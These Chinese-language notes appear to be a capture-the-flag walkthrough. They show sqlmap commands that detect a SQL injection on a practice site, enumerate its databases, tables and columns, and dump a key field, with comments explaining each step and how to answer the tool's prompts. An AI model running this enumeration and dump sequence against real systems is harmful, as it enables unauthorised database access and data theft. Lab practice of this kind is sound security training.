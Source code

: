 python环境
python sqlmap.py
测试安装成功
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1"
//根据链接初步断定注入信息
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --dbs
//爆这个u网址的--库dbs
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db
//或者看当前数据库
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db --tables
//爆这个u网址D数据库下的--表tables
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey --columns
//爆列信息--columns
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
//已经确定库，不用再测试其他库
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
//默认危险等级
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
//已经确定攻击点，不用再等待了
do you want to use common column existence check? [y/N/q] y
//有一些属性列字典了
python sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey -C k0y --dump
//爆破这个字段
python sqlmap.py --purge-output
//清理缓存
可以用-v
让sqlmap显示它执行的语句

